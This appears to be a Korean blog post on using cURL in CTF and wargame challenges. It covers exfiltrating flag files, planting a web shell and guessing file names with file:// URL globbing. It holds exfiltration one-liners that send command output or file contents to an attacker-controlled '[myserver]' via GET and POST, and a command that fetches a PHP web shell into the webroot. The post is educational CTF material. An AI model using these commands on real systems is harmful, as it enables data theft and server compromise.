 ```yaml
---
title: cURL with CTF
date: 2024-01-09
author: glasses96
categories: [Etc]
tags: [cURL,CTF]
pin: true
math: true
mermaid: true
---
```


> **CTF나 워게임 문제를 풀 때 쉘 명령어로 /flag를 실행시키거나, /flag.txt와 같은 파일 내용을 가져와야 하는 경우가 있습니다.**  
> **이런 상황에서 쉘을 연결하지 않고 cURL를 이용하는 여러가지 방법을 알아봅시다.**     
{: .prompt-info }

## What is Curl??
[cURL](https://curl.se/)은 client URL 이라는 뜻을 가지고 있습니다.  
지원하는 프로토콜을 이용하여 URL로 데이터를 전송하여 서버에서 데이터를 보내거나, 가져옵니다.  

CTF/워게임에서 명령어 실행이 가능할 때 `/flag, /flag.txt`에 있는 결과를 공격자의 서버로 전달하기 위해 자주사용합니다.  

`여기서 웹과 연결된 쉘이 바이너리 파일에 실행권한이 있어야 전달이 가능하며, flag.txt에는 읽기 권한이 있어야 전달이 가능합니다.`

## Example cURL
다음과 같이 서버에 `flag` 바이너리와 `flag.txt` 파일이 존재합니다.
![flag](/assets/post/53/1.png)

각 내용은 아래와 같습니다.
```sh
flag -> FLAG{FLAG Binary!!!}

flag.txt -> FLAG{FLAG flag.txt!!}
```

### GET Request Server
`GET` 통신을 이용하여 서버에 전달하는 방법입니다.  
Payload를 보면 base64 인코딩을 하여 전달하는데 이는 그냥 전달 시 `{,}` 가 해석이 안되어 전달 자체가 불가능합니다.  
이런경우 `-g`, `--globoff` 옵션을 주어 globbing을 끄면 되지만 내용에 공백이 있을 경우 또한 전달이 불가능합니다.

```sh
#/flag
curl http://[myserver]/?flag=`/flag|base64 -w0
```

![flag1](/assets/post/53/2.png)

```sh
curl http://[myserver]/?flag=`cat /flag.txt|base64 -w0`
```
![flag1.txt](/assets/post/53/3.png)

### POST Request Server
`POST` 통신을 이용하여 서버에 전달하는 방법입니다.

`-d`, `--data` 옵션을 주어 파일 내용을 전달 할 수 있습니다.

```sh
curl -x POST http://[myserver]/ -d @/flag.txt
```
![flag2](/assets/post/53/4.png)

### File upload
-o 옵션을 주어 외부에서 파일을 가져와 서버에 업로드 할 수 있습니다.  
웹 쉘을 웹루트 폴더에 업로드가 되면 이를 이용이 가능합니다.  

`다만 curl의 명령어를 실행하는 위치에 파일 쓰기가 가능한 경우 사용이 가능합니다.`
```sh
curl -0 webshell.php https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985
```
![phpupload](/assets/post/53/5.png)

## URL globbing
curl은 [URL Globbing](https://everything.curl.dev/cmdline/globbing)이 가능합니다.  
간단하게 요약하자면 예약된 문자 `{}, []`를 사용하여 범위 입력이 가능합니다.  

예시로 flag.txt 파일이 flag.랜덤한 8자리.txt 이런식으로 랜덤 값을 추측해야하는 경우 사용이 가능합니다. 
다만 이런 경우 위에서 보았던 `GET, POST`에서 보았던 것 처럼은 사용은 안되지만 `file://` 스킴이 사용 가능할 때 유용합니다.

```sh
flag99.txt -> flag[0-9][0-9].txt
curl file:///flag[0-9][0-9].txt
```
![URL Globbing](/assets/post/53/6.png)

## 후기
더 다양한 방법이 있을 것으로 예상되지만 우선은 여기까지!